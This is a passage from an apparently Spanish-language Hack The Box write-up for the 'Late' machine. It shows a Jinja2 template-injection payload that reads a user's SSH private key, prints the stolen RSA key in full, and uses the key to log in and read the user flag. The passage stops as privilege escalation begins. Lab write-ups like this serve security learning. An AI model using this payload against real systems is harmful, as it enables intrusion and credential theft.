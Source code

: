 Ahora que ya conozco que usuarios existen en la máquina, utilice la misma instrucción anterior para leer archivos pero en este caso buscando la llave privada de ssh del usuario svc_acc <br>
**\{\{ get\_flashed\_messages.\_\_globals\_\_.\__builtins\_\_\.open\(\"/home/svc_acc/.ssh/id_rsa\"\).read\(\) }\}**

``` bash
┌──(root㉿kali)-[/home/…/Documents/HTB/Late/content]
└─# cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
``` 
Ya que cuento con la llave privada del usuario puedo ganar acceso a la máquina y visualizar la bandera de usuario.

``` bash
┌──(root㉿kali)-[/home/…/Documents/HTB/Late/content]
└─# ssh -i id_rsa svc_acc@10.10.11.156
svc_acc@late:~$ whoami
svc_acc
svc_acc@late:~$ cat user.txt 
bb90b2ed928c854c77e1ee2bd3e1087a
svc_acc@late:~$ 
``` 

## Escalada de privilegios

Utilizando linpeas identifiqué un script interesante **“/usr/local/sbin/ssh-alert.sh”** el cual cuenta con permisos de escritura:
